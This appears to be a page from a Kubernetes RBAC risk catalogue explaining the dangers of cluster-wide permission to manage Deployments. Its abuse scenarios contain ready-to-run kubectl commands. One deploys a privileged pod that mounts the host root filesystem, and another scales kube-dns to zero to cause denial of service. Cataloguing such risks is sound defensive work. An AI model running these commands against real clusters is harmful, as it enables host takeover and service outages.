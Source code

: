 ```yaml
---
id: 1033
title: "Manage Deployments cluster-wide (potential for privileged pod execution)"
description: "Allows creating, updating, or deleting Deployments across all namespaces. Deployments manage pod replicas, and this permission can be used to deploy pods with privileged settings, leading to code execution, privilege escalation, persistence, and tampering with cluster workloads."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                               |
| ------------- | ------------------------------------------------------------------------------------------------------------------- |
| ID            | 1033                                                                                                                |
| Name          | Manage Deployments cluster-wide (potential for privileged pod execution)                                            |
| Risk Category | Elevation of Privilege                                                                                              |
| Risk Level    | {{< risk Critical >}}                                                                                               |
| Role Type     | ClusterRole                                                                                                         |
| API Groups    | apps                                                                                                                |
| Resources     | deployments                                                                                                         |
| Verbs         | create, update, patch, delete                                                                                       |
| Tags          | {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Allows creating, updating, or deleting Deployments across all namespaces. Deployments manage pod replicas, and this permission can be used to deploy pods with privileged settings, leading to code execution, privilege escalation, persistence, and tampering with cluster workloads.

## Abuse Scenarios

1. Create a new Deployment with a privileged pod template.

```bash {copy=true}
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  name: privileged-deployment
spec:
  replicas: 1
  selector:
    matchLabels:
      app: privileged-app
  template:
    metadata:
      labels:
        app: privileged-app
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: attacker
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Scale a critical deployment to zero replicas, causing denial of service.

```bash {copy=true}
kubectl scale deployment <deployment-name> -n <namespace> --replicas=0
# Example: kubectl scale deployment kube-dns -n kube-system --replicas=0

```
